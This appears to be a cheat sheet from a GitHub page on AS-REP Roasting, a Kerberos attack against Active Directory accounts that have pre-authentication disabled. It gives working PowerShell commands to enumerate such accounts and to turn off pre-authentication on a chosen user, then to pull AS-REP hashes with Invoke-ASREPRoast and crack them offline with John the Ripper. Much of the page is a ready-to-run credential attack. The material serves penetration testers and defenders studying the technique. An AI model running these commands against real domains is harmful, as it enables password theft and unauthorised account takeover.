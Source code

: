 # AS-REP Roasting

**AS-REP Roasting** exploits Kerberos accounts with **"`Do not require preauthentication`"** enabled.

in usually user when will try to login it must to send timestamp encrypted with NT Hash to proof it’s know the password but this option was disable timestamp

* Attacker requests an AS-REP without knowing the password.
* The KDC returns an encrypted AS-REP ticket (encrypted with user’s NTLM hash).
* Attacker cracks it offline to recover the plaintext password.

***

## Enumeration

**Enumerating accounts with Kerberos pre-authentication disabled**

```powershell
# powerView
Get-DomainUser -PreauthNotRequired -Verbose

# AD Module
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

**Disable pre-authentication**

if you have( Write Permissions / GenericAll / Domain Admin) privilege

```powershell
Set-DomainObject -Identity <User> -XOR @{useraccountcontrol=4194304} -Verbose
```

**Retrieve the hash**

```powershell
Get-ASREPHash -UserName VPN1user -Verbose
Invoke-ASREPRoast -Verbose
```

**Crack**

```powershell
john.exe --wordlist=passwords.txt asrephashes.txt
```
